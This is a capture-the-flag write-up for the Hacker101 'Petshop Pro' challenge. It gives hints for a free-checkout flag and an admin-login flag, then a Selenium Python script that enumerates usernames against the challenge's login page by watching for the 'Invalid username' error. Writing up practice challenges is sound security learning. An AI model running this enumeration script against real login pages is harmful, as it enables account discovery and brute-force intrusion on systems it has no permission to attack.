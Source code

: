 # Petshop Pro - Capture The Flag from Hacker101

[TOC]

At the start you are given simple website with cats and dogs which you can simply add to your cart. After adding few cats and dogs you can proceed to checkout and after submitting the orders you got server is unavailable.

## First Flag

Isn't beautiful to buy something for free. Well, thats what is the first flag about.

The first flag hints are: 

* Can you buy the cart for free?
* Keep in mind that every input should be tested.

## Second flag

The Second flag was kinda hard for me as I couldn't come up with idea where should I search for the flag. Though the advice didn't make it easier either!

The second flag hints are:

* Search for admin panel page
* Tools will help you to find corrrect user name 
* Tools will help you to find corrrect password

As I said the advice was not so helpful. Firstly I tried to do brute force approach to find the admin page. I took [a-z] permutations of alphabet but there were too many. The limitation is both time and number of queries to

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time

driver = webdriver.Firefox()
driver.get("http://35.190.155.168/e3c7a89d01/login")

# Opening file
file1 = open('user_list.txt', 'r')
 
for line in file1:
    user_name = line.strip()
    user = driver.find_elements_by_css_selector('body > form > p:nth-child(1) > input[type=text]')[0]
    user.send_keys(user_name)

    loginbtn = driver.find_elements_by_xpath('/html/body/form/p[3]/input')[0]
    loginbtn.send_keys(Keys.RETURN)

    driver.implicitly_wait(15)

    resp = driver.find_elements_by_css_selector('body > p:nth-child(2) > b:nth-child(1)')[0]
    if resp.text != 'Invalid username':
        print(user_name)
        break

    time.sleep(1)
 
# Closing files
file1.close()
driver.close()
```